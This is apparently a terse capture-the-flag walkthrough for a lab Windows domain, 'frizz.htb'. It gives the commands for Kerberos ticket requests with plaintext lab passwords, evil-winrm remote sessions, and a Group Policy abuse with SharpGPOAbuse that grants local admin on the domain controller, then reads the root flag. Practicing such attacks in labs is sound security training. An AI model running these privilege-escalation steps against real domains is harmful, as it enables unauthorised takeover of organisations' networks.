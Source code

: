 


impacket-getTGT frizz.htb/f.frizzle:Jenni_Luvs_Magic23 -dc-ip $victim 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[*] Saving ticket in f.frizzle.ccache
export KRB5CCNAME=f.frizzle.ccache
evil-winrm -i frizzdc.frizz.htb -r FRIZZ.HTB -k f.frizzle.ccache



impacket-getTGT frizz.htb/M.Schoolbus:'!suBcig@MehTed!R' -dc-ip $victim

M.Schoolbus can write GPO
New-GPO -Name pwn | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName pwn
gpupdate /force 

I had to reconnect a times via evil-winrm, before I was really local admin by the GPO abuse
type C:\Users/Administrator/Desktop/root.txt
